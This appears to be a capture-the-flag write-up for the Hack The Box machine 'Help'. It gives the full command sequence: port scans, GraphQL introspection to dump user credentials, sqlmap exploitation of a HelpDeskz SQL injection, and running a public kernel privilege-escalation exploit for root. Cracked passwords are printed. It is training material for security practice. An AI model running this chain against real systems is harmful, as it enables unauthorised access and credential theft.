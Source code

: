 # [Help](https://app.hackthebox.com/machines/Help)

```bash
nmap -p- --min-rate 10000 10.10.10.121 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,3000 10.10.10.121
```

![alt text](img/image-1.png)


From nmap scan result, we see that this ip address is resolved into `help.htb`, let's add this into `/etc/hosts` file.


First, let's look at port `3000` to see what's happening here.

![alt text](img/image-2.png)


From my guess, it is API , let's do `directory enumeration` for this API to find possible endpoints.
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt -t 40 -u http://help.htb:3000/
```

![alt text](img/image-3.png)

I see that it is `GrapQL` api, let's look at [documentation](https://graphql.org/learn/introspection/) of this to find interesting stuff from here.

Tha's called `introspection` feature of `GraphQL`.

```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq  -c .
```

![alt text](img/image-4.png)


I find `User`, let's get fields of this.
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq .
```

![alt text](img/image-5.png)


Now, it's time to get values of this fields.
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq .
```

![alt text](img/image-6.png)


Let's crack this salted password via [Crackstation](https://crackstation.net)

![alt text](img/image-7.png)


helpme@helpme.com: godhelpmeplz


Let's `directory enumeration` for port `80` to find interesting stuff from here.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 40 -u http://help.htb/
```

![alt text](img/image-8.png)


I found web application on `/support` endpoint.

![alt text](img/image-9.png)


Let's login into this web application via grabbed credentials from `GraphQL` API.

![alt text](img/image-10.png)


Now, let's search publicly known exploit for this version of `HelpDeskz` software.

![alt text](img/image-11.png)


Let's use SQL injection vulnerability (authenticated) which is located on `Ticket Attachment` feature.

![alt text](img/image-12.png)


Let's do this attack via `sqlmap` tool.
```bash
sqlmap -u "http://help.htb/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6" --level 5 --risk 3 -p param[]
```


I dump credentials from `support` database and `staff` table.


help: Welcome1

That's password of `help` user on our target machine.

user.txt

![alt text](img/image-13.png)


While I run `uname -a` command to see kernel's version, I see that is vulnerable [CVE-2017-16995](https://www.exploit-db.com/exploits/44298)

![alt text](img/image-14.png)


Let's upload this malicous `.c` file into machine , compile and run.

For uploading, I will use `scp` command.
```bash
scp 44298.c help@help.htb:/tmp
```

![alt text](img/image-15.png)


Let's compile this malicious `.c` script.
```bash
gcc -o exploit 44298.c
./exploit
```


root.txt

![alt text](img/image-16.png)